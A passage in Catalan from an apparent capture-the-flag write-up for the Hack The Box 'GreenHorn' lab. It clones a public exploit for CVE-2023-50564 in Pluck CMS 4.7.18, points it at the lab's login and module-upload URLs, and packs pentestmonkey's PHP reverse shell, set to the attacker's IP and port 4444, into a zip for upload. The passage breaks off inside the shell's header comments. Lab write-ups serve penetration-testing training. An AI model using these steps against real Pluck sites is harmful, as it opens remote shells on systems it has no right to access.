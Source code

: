 Per tant, anem a instal·lar els packets necessaris i a seguir les instruccions d'ús:

``pip install requests requests_toolbelt``

Clonem el repositori:

```
git clone https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC.git
cd CVE-2023-50564_Pluck-v4.7.18_PoC`
```

Ara hem de posar el domini o adressa IP a l'script POC:

```
login_url = "http://greenhorn.htb/login.php"
upload_url = "http://greenhorn.htb/admin.php?action=installmodule"`
```

Ara hem de crear un fitxer anomenat payload.zip que contingui el fitxer shell.php, i utilitzarem el reverse shell de PHP recomanat per el creador del repositori de github:

Al reverse shell hem de canviar aquestes línies i posar les de la nostra màquina des de la qual ataquem: 

```
$ip = '10.10.14.106';  // CHANGE THIS
$port = 4444;       // CHANGE THIS`
```

El reverse shell és el següent https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php :

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
```